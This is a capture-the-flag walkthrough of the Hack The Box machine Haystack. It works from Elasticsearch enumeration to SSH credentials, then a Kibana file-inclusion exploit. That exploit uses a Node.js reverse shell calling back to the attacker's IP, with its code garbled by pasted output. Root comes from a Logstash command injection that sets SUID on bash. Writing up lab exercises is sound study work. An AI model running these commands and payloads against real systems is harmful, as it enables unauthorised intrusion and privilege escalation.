

# Haystack by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Haystack  | 10.10.10.115  | Linux              | 20       | 3.6      | 7332        | 5035        | Yes       | 2019-06-29     | 2019-11-02     | No         | 195          |

## Summary
1. Scan ports -> 22,80,9200
2. Enumerate port 80 -> Needle image
3. `strings` on image -> `clave` keyword
4. Enumerate port 9200 -> `quotes` section on API
5. grep `clave` on `quotes` -> `security:spanish.is.key` base64 encoded
6. ssh with creds -> User shell as `security`
7. Scan localhost ports -> 5601
8. Port forwarding with chisel and enumertae port 5601 -> `Kibana 6.4.2`
9. LFI exploit on js file -> Shell as `kibana`
10. Create malicious `/opt/kibana/logstash_*` with correct format -> `RCE` as root
11. set `suid` on `/bin/bash` and `bash -p` -> `Root shell` 

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.10.115
PING 10.10.10.115 (10.10.10.115) 56(84) bytes of data.
64 bytes from 10.10.10.115: icmp_seq=1 ttl=63 time=40.8 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.115 -v -Pn -n -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.115 

	[*] Open ports:  22,80,9200 


[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p22,80,9200 -sVC -n 10.10.10.115 -oN Enum/targeted
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn\'t have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-title: Site doesn\'t have a title (application/json; charset=UTF-8).

```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 22   | ssh       | OpenSSH 7.4 | protocol 2.0 |
| 80   | http      | nginx 1.12.2 | - | 
| 9200 | http      | nginx 1.12.2 | Risky methods: DELETE <br> Conten-Type -> application/json |

### Port 80 Enumeration
#### Technology scan
```bash
❯ whatweb 10.10.10.115
http://10.10.10.115 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx/1.12.2], IP[10.10.10.115], nginx[1.12.2]
```
Toguether with `wappalyzer` extension:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| nginx | 1.12.2 | - |

#### Web content fuzzing
```bash
❯ wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 55 "http://10.10.10.115/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.115/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================
```
We didn't find anything useful, and we cannot look for subdomains as we don't know the domain name.

#### Manual enumeration
From the manual enumeration we can only see:
```html
<html>
  <head>
  </head>
  <body>
    
  </body>
</html>
```
So let's check the `.jpg` file:
```bash
❯ wget http://10.10.10.115/needle.jpg
❯ mv needle.jpg Results
❯ strings Results/needle.jpg | tail -n 1
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
❯ strings Results/needle.jpg | tail -n 1 | base64 --decode
la aguja en el pajar es "clave"
```
So we should look for `clave` to find the key we need.

### Port 9200 Enumeration
#### Technology scan
```bash
❯ whatweb 10.10.10.115:9200
http://10.10.10.115:9200 [200 OK] Country[RESERVED][ZZ], ElasticSearch[6.4.2], HTTPServer[nginx/1.12.2], IP[10.10.10.115], nginx[1.12.2]
```
Toguether with `wappalyzer` extension:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| ElasticSearch | 6.4.2 | Latest Version: 7.14 |
| nginx | 1.12.2 | - |

#### Web content fuzzing
First, let's enumerate the accessible paths of the web server.
```bash
❯ wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 400,404 --hh 2,493 "http://10.10.10.115:9200/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.115:9200/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000687:   200        0 L      1 W        338 Ch      "quotes"          
000003642:   200        0 L      1 W        1010 Ch     "bank"            
000016413:   200        0 L      1 W        4136 Ch     "*"  
```

#### Manual enumeration
If we perform a GET request to the index page, we can see:
```json
❯ curl "http://10.10.10.115:9200" -s | jq
{
  "name": "iQEYHgS",
  "cluster_name": "elasticsearch",
  "cluster_uuid": "pjrX7V_gSFmJY-DxP4tCQg",
  "version": {
    "number": "6.4.2",
    "build_flavor": "default",
    "build_type": "rpm",
    "build_hash": "04711c2",
    "build_date": "2018-09-26T13:34:09.098244Z",
    "build_snapshot": false,
    "lucene_version": "7.4.0",
    "minimum_wire_compatibility_version": "5.6.0",
    "minimum_index_compatibility_version": "5.0.0"
  },
  "tagline": "You Know, for Search"
}
```
We should notice the cluster name `elasticsearch` and the fact that it is outdated. If we look for exploits:
```bash
❯ searchsploit elasticsearch
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
ElasticSearch - Remote Code Execution            | linux/remote/36337.py
ElasticSearch - Remote Code Execution            | multiple/webapps/33370.html
ElasticSearch - Search Groovy Sandbox Bypass (Me | java/remote/36415.rb
ElasticSearch 1.6.0 - Arbitrary File Download    | linux/webapps/38383.py
ElasticSearch 7.13.3 - Memory disclosure         | multiple/webapps/50149.py
ElasticSearch < 1.4.5 / < 1.5.2 - Directory Trav | php/webapps/37054.py
ElasticSearch Dynamic Script - Arbitrary Java Ex | java/remote/33588.rb
Elasticsearch ECE 7.13.3 - Anonymous Database Du | multiple/webapps/50152.py
------------------------------------------------- ---------------------------------
```
We can see a python code that allows RCE and does not specify te version at which it is vulnerable. If we look up the code we find the [CVE-2015-1427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427), it specifies that the version should be lower than 1.4.3, but it is worth a try.

### RCE via ElasticSearch
As we mentioned, we are going to use a python exploit:
```bash
❯ searchsploit -m linux/remote/36337.py
❯ mv 36337.py Exploits
```
If we read the exploit, we can see that the RCE is taking place through this request:
```bash
❯ curl "http://10.10.10.115:9200" -s -H "Content-Type:application/json" -d '{"size":1, "script_fields": {"lupin":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"whoami\\").getText()"}}}'
{"error":"Incorrect HTTP method for uri [/] and method [POST], allowed: [HEAD, DELETE, GET]","status":405}%
```
But the web server does not allow POST requests, so the exploit is patched.
 
We could try to achieve RCE from [CVE-2018-17246](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17246) but as we cannot perform LFI, we should take a further look. If we perform some basic user enumeration:
```bash
❯ curl "http://10.10.10.115:9200/_security/role"
{"error":"Incorrect HTTP method for uri [/_security/role] and method [GET], allowed: [POST]","status":405}
❯ curl "http://10.10.10.115:9200/_security/user"
{"error":"Incorrect HTTP method for uri [/_security/user] and method [GET], allowed: [POST]","status":405}
```
Seems like this path is patched too.


### ElasticSearch deep enumeration
So we can try to enumerate `elastic endpoints`:
```bash
❯ curl "http://10.10.10.115:9200/_cat"
=^.^=
/_cat/allocation
/_cat/shards
/_cat/shards/{index}
/_cat/master
/_cat/nodes
/_cat/tasks
/_cat/indices
/_cat/indices/{index}
/_cat/segments
/_cat/segments/{index}
/_cat/count
/_cat/count/{index}
/_cat/recovery
/_cat/recovery/{index}
/_cat/health
/_cat/pending_tasks
/_cat/aliases
/_cat/aliases/{alias}
/_cat/thread_pool
/_cat/thread_pool/{thread_pools}
/_cat/plugins
/_cat/fielddata
/_cat/fielddata/{fields}
/_cat/nodeattrs
/_cat/repositories
/_cat/snapshots/{repository}
/_cat/templates
❯ curl "http://10.10.10.115:9200/_cat/indices"
green  open .kibana 6tjAYZrgQ5CwwR0g6VOoRg 1 0    1 0     4kb     4kb
yellow open quotes  ZG2D1IqkQNiNZmi2HRImnQ 5 1  253 0 262.7kb 262.7kb
yellow open bank    eSVpNfCfREyYoVigNWcrMw 5 1 1000 0 483.2kb 483.2kb
```
We can then list the indices of the cluster:
```bash
❯ curl "http://10.10.10.115:9200/_cat/indices"
green  open .kibana 6tjAYZrgQ5CwwR0g6VOoRg 1 0    1 0     4kb     4kb
yellow open quotes  ZG2D1IqkQNiNZmi2HRImnQ 5 1  253 0 262.7kb 262.7kb
yellow open bank    eSVpNfCfREyYoVigNWcrMw 5 1 1000 0 483.2kb 483.2kb
```
And we can try to dump their contents:
- .**kibana**: Config document for `kibana 6.4.2`
  ```bash
  ❯ curl "http://10.10.10.115:9200/.kibana/_search?pretty=true" -s | jq
    {
    "took": 0,
    "timed_out": false,
    "_shards": {
        "total": 1,
        "successful": 1,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": 1,
        "max_score": 1,
        "hits": [
        {
            "_index": ".kibana",
            "_type": "doc",
            "_id": "config:6.4.2",
            "_score": 1,
            "_source": {
            "type": "config",
            "updated_at": "2019-01-23T18:15:53.396Z",
            "config": {
                "buildNum": 18010,
                "telemetry:optIn": false
            }
            }
        }
        ]
    }
    }
    ```
- **quotes**: Quotes storages, not useful.
  ```bash
  ❯ curl "http://10.10.10.115:9200/quotes/_search?pretty=true" -s | jq
    {
    "took": 14,
    "timed_out": false,
    "_shards": {
        "total": 5,
        "successful": 5,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": 253,
        "max_score": 1,
        "hits": [
        {
            "_index": "quotes",
            "_type": "quote",
            "_id": "14",
            "_score": 1,
            "_source": {
            "quote": "En América se desarrollaron importantes civilizaciones, como Caral (la civilización más antigua de América, la cual se desarrolló en la zona central de Perú), los anasazi, los indios pueblo, quimbaya, nazca, chimú, chavín, paracas, moche, huari, lima, zapoteca, mixteca, totonaca, tolteca, olmeca y chibcha, y las avanzadas civilizaciones correspondientes a los imperios de Teotihuacan, Tiahuanaco, maya, azteca e inca, entre muchos otros."
            }
        },
        # More hits...
        ]
    }
    }
    ```
- **bank**: Bank accounts, could be useful to enumerate usernames, but login is disabled.
  ```bash
  ❯ curl "http://10.10.10.115:9200/bank/_search?pretty=true" -s | jq
    {
    "took": 5,
    "timed_out": false,
    "_shards": {
        "total": 5,
        "successful": 5,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": 1000,
        "max_score": 1,
        "hits": [
        {
            "_index": "bank",
            "_type": "account",
            "_id": "25",
            "_score": 1,
            "_source": {
            "account_number": 25,
            "balance": 40540,
            "firstname": "Virginia",
            "lastname": "Ayala",
            "age": 39,
            "gender": "F",
            "address": "171 Putnam Avenue",
            "employer": "Filodyne",
            "email": "virginiaayala@filodyne.com",
            "city": "Nicholson",
            "state": "PA"
            }
        },
        # More hits...
        ]
    }
    }
    ```
As we can see, there are 253 quotes, but we can only access some of them. From the http enumeration on port 80, we can try to look for `needle` and `clave`:
```bash
❯ curl "http://10.10.10.115:9200/quotes/_search?pretty=true&size=253" -s | jq | grep "needle"
          "quote": "There's a needle in this haystack, you have to search for it"
❯ curl "http://10.10.10.115:9200/quotes/_search?pretty=true&size=253" -s | jq | grep "clave"
          "quote": "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
          "quote": "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
```
We found two keys, one endoded in base64 and the ohter one seems plain text. The first key, decoded, looks like:
```bash
❯ echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 --decode
pass: spanish.is.key
❯ echo "dXNlcjogc2VjdXJpdHkg" | base64 --decode
user: security
```
From this output we discovered the credential `security:spanish.is.key`, let's try it on ssh:
```bash
❯ ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can\'t be established.
ED25519 key fingerprint is SHA256:J8TOL2f2yaJILidImnrtW2e2lcroWsFbo0ltI9Nxzfw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ED25519) to the list of known hosts.
security@10.10.10.115\'s password: # spanish.is.key
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ hostname -I 
10.10.10.115 dead:beef::250:56ff:feb9:f95a 
```

## Privilege escalation
Let's enumerate the users with bash terminals, and the permissions available for `security`:
```bash
[security@haystack ~]$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
security:x:1000:1000:security:/home/security:/bin/bash
[security@haystack ~]$ cat /etc/sudoers
cat: /etc/sudoers: Permiso denegado
[security@haystack ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for security: # spanish.is.key
Sorry, user security may not run sudo on haystack.
```

### Linpeas.sh
Download the script from our personal python http server and run it:
```bash
[security@haystack ~]$ curl http://10.10.14.15:4444/linpeas.sh --output linpeas.sh
[security@haystack ~]$ chmod +x linpeas.sh 
[security@haystack ~]$ ./linpeas.sh 
```
From its output we see:
- Sudo version: `1.8.23`
- Suggested exploit: `CVE-2018-14665`
- Various .github under `/usr/share/kibana/node_modules`

### Pspy
We can now try to monitorize root's processes:
```bash
[security@haystack ~]$ curl http://10.10.14.15:4444/pspy32s --output psypy
[security@haystack ~]$ chmod +x psypy 
[security@haystack ~]$ ./psypy -c -i 100 | grep UID=0
2022/06/10 11:30:42 CMD: UID=0    PID=6124   | /bin/java -Xms500m -Xmx500m -XX:+UseParNewGC -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFraction=75 -XX:+UseCMSInitiatingOccupancyOnly -Djava.awt.headless=true -Dfile.encoding=UTF-8 -Djruby.compile.invokedynamic=true -Djruby.jit.threshold=0 -XX:+HeapDumpOnOutOfMemoryError -Djava.security.egd=file:/dev/urandom -cp /usr/share/logstash/logstash-core/lib/jars/animal-sniffer-annotations-1.14.jar:/usr/share/logstash/logstash-core/lib/jars/commons-codec-1.11.jar:/usr/share/logstash/logstash-core/lib/jars/commons-compiler-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/error_prone_annotations-2.0.18.jar:/usr/share/logstash/logstash-core/lib/jars/google-java-format-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/gradle-license-report-0.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/guava-22.0.jar:/usr/share/logstash/logstash-core/lib/jars/j2objc-annotations-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-annotations-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-core-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-databind-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-dataformat-cbor-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/janino-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/jruby-complete-9.1.13.0.jar:/usr/share/logstash/logstash-core/lib/jars/jsr305-1.3.9.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-api-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-core-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-slf4j-impl-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/logstash-core.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.commands-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.contenttype-3.4.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.expressions-3.4.300.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.filesystem-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.jobs-3.5.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.resources-3.7.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.runtime-3.7.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.app-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.common-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.preferences-3.4.1.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.registry-3.5.101.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.jdt.core-3.10.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.osgi-3.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.text-3.5.101.jar:/usr/share/logstash/logstash-core/lib/jars/slf4j-api-1.7.25.jar org.logstash.Logstash --path.settings /etc/logstash 
```
We can see a very long java execution with the settings `/etc/logstash`, if we look it up on [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash#privesc-with-writable-pipelines), we can enumerate:
```bash
[security@haystack ~]$ ls /etc/logstash/ -la
total 56
drwxr-xr-x.  3 root   root   4096 jun 18  2019 .
drwxr-xr-x. 85 root   root   8192 mar 28 13:08 ..
drwxrwxr-x.  2 root   kibana   62 jun 24  2019 conf.d
-rw-r--r--.  1 root   kibana 1850 nov 28  2018 jvm.options
-rw-r--r--.  1 root   kibana 4466 sep 26  2018 log4j2.properties
-rw-r--r--.  1 root   kibana  342 sep 26  2018 logstash-sample.conf
-rw-r--r--.  1 root   kibana 8192 ene 23  2019 logstash.yml
-rw-r--r--.  1 root   kibana 8164 sep 26  2018 logstash.yml.rpmnew
-rw-r--r--.  1 root   kibana  285 sep 26  2018 pipelines.yml
-rw-------.  1 kibana kibana 1725 dic 10  2018 startup.options
[security@haystack ~]$ groups
security
[security@haystack ~]$ cat /etc/logstash/pipelines.yml 
# This file is where you define your pipelines. You can define multiple.
# For more information on multiple pipelines, see the documentation:
#   https://www.elastic.co/guide/en/logstash/current/multiple-pipelines.html

- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"
[security@haystack ~]$ ls -la /etc/logstash/conf.d/
total 16
drwxrwxr-x. 2 root kibana   62 jun 24  2019 .
drwxr-xr-x. 3 root root   4096 jun 18  2019 ..
-rw-r-----. 1 root kibana  131 jun 20  2019 filter.conf
-rw-r-----. 1 root kibana  186 jun 24  2019 input.conf
-rw-r-----. 1 root kibana  109 jun 24  2019 output.conf
```
As we can see, we do not have writing permission on any of the files listed, but we enumerated the user `kibana`:
```bash
[security@haystack ~]$ cat /etc/passwd | grep kibana
kibana:x:994:992:kibana service user:/home/kibana:/sbin/nologin
```

### Kibana user
So first we need to obtain access to the kibana user, to do so, we can look up kibana on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/5601-pentesting-kibana). As the port 5601 was not detected in the first nmap scan, we can use the handmade script:
```bash
❯ cat portScan
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: portScan
       │ Size: 337 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ if [ $1 ];then
   4   │   ip_addr=$1
   5   │   echo -e "\n[*] Testing all open ports on $ip_addr\n"
   6   │   for port in `seq 1 65535`; do
   7   │     timeout 1 bash -c "echo '' > /dev/tcp/$ip_addr/$port" 2>/dev/null && e
       │ cho -e "\t[+] Port $port - open" &
   8   │   done
   9   │   echo -e "\n[*] Tested 65535 Ports"
  10   │ else
  11   │   echo -e "Usage: $0 <ip-address>\n"  
  12   │   exit 1
  13   │ fi
───────┴───────────────────────────────────────────────────────────────────────────
```
Upload it and check which ports are open:
```bash
[security@haystack ~]$ curl http://10.10.14.15:4444/portScan -s --output portScan
[security@haystack ~]$ chmod +x portScan 
[security@haystack ~]$ ./portScan 10.10.10.115
[security@haystack ~]$ ./portScan 127.0.0.1

[*] Testing all open ports on 127.0.0.1

	[+] Port 22 - open
	[+] Port 80 - open
	[+] Port 5601 - open
	[+] Port 9000 - open
	[+] Port 9200 - open
```
We discovered that port 5601 is open.
#### Chisel port forwarding
We can use the chisel tool to forward a port to a remote host.
```bash
# Client before connection
[security@haystack ~]$ curl http://10.10.14.15:4444/chisel -s --output chisel
[security@haystack ~]$ chmod +x chisel 
[security@haystack ~]$ ./chisel client 10.10.14.15:4444 R:socks
# Client after connection
2022/06/10 11:48:58 client: Connecting to ws://10.10.14.15:4444
2022/06/10 11:48:58 client: Connected (Latency 54.835288ms)
# Server before connection
❯ chisel server --port 4444 --reverse
2022/06/10 17:48:49 server: Reverse tunnelling enabled
2022/06/10 17:48:49 server: Fingerprint dibMvRs+HGy1JK2PvLJhKnF2oAM89At4fe77xdHkxmM=
2022/06/10 17:48:49 server: Listening on http://0.0.0.0:4444
# Server after connection:
2022/06/10 17:48:58 server: session#1: Client version (1.7.7) differs from server version (v1.7.7)
2022/06/10 17:48:58 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
Now we can use proxychains on terminal and foxproxy on browser to enumerate the kibana application.

#### Port 5061 enumeration
When we access to the webpage through chisel, we can see:

#### Techonology scan
```bash
❯ proxychains whatweb 127.0.0.1:5601
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:5601  ...  OK
http://127.0.0.1:5601 [200 OK] Country[RESERVED][ZZ], IP[127.0.0.1], Kibana, Script, UncommonHeaders[kbn-name,kbn-xpack-sig]
```
Toguether with `wappalyzer` extension:
| Technology | Version | Detail |
| :--------: | :-----: | :----: |
| Angular.js | 1.6.9 | - |
| Node.js | - | - |
| PHP | - | - |
| ElasticSearch | - | - |
| Kibana | - | - |
| D3 | 3.5.6| - |

#### Web content fuzzing
Performing wfuzz against a proxychain tunnel is not a good idea.

#### Manual enumeration
If we look at the `http://127.0.0.1:5601/app/kibana#/management?_g=()` page, we can see the version of kibana: `6.4.2`
Then, if we look for exploits over Kibana 6.4.2, we find, again, the [CVE-2018-17246](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17246), but the difference is that we can now upload js files into the machine.

### User shell via CVE-2018-17246
To do this, we must create the script `/tmp/shell.js`:
```js
(funtion(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(3333, "10.10.14.15", function(){sh-4.2$ whoami
kibana
sh-4.2$ hostname -I
10.10.10.115 dead:beef::250:56ff:feb9:8fb7 
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
And access it through the url `http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js`
```bash
# Trigger console
[security@haystack ~]$ curl http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js
# Listening console
❯ nc -nlvp 3333
```
But it didn't work, this could be due to the two users having their own tmp, let's store the script in shared memory, `/dev/shm`:
```bash
# Victim terminal
[security@haystack ~]$ mv /tmp/shell.js /dev/shm/
[security@haystack ~]$ curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../dev/shm/shell.js'
# My terminal
❯ nc -nlvp 3333
Connection from 10.10.10.115:34872
python -c "import pty; pty.spawn('/bin/sh')" 
sh-4.2$ script /dev/null -c bash
zsh: suspended  nc -nlvp 3333
❯ stty raw -echo;fg 
sh-4.2$ reset xterm
sh-4.2$ whoami
kibana
sh-4.2$ hostname -I
10.10.10.115 dead:beef::250:56ff:feb9:8fb7 
```

### Root shell via logstash
Now that we are logged in as `kibana`, we can read some more files from `/etc/logstash`:
```bash
sh-4.2$ cat pipelines.yml 
# This file is where you define your pipelines. You can define multiple.
# For more information on multiple pipelines, see the documentation:
#   https://www.elastic.co/guide/en/logstash/current/multiple-pipelines.html

- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"
  sh-4.2$ cat conf.d/*
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```
From this code we can assume that there is some program reading files from `/opt/kibana/` with the format `logstash_*`. Then, we can try to inject some shell code into a file `logstash_root` and wait the 10s interval to take place:
```bash
sh-4.2$ cd /opt/kibana
sh-4.2$ echo "Ejecutar comando : chmod +s /bin/bash" > logstash_root
sh-4.2$ ls -la /bin/bash
-rwsr-sr-x. 1 root root 964608 oct 30  2018 /bin/bash
```
In order for this attack to work, the filename has to follow the pattern `logstash_*`, and the content must be preceeded by `Ejecutar comando : `. Now that `bash` has the `suid` set, we can obtain the root shell:
```bash
bash-4.2# whoami
root
bash-4.2# hostname -I
10.10.10.115 dead:beef::250:56ff:feb9:8fb7 
```
We obtained root shell at Haystack.

## CVE
### [CVE-2015-1427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427)
The Groovy scripting engine in Elasticsearch before 1.3.8 and 1.4.x before 1.4.3 allows remote attackers to bypass the sandbox protection mechanism and execute arbitrary shell commands via a crafted script.

### [CVE-2018-17246](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17246)
Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system. 

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | dd7e7f64fa8ac6f9493678303ecd9bff | No | 10-06-2022|
| Root | d2dc4ee0139951a44c23ab13a8083b7a | No | 10-06-2022|

## References
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17246
- https://github.com/mpgn/CVE-2018-17246/blob/master/README.md
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash#privesc-with-writable-pipelines
- https://book.hacktricks.xyz/network-services-pentesting/5601-pentesting-kibana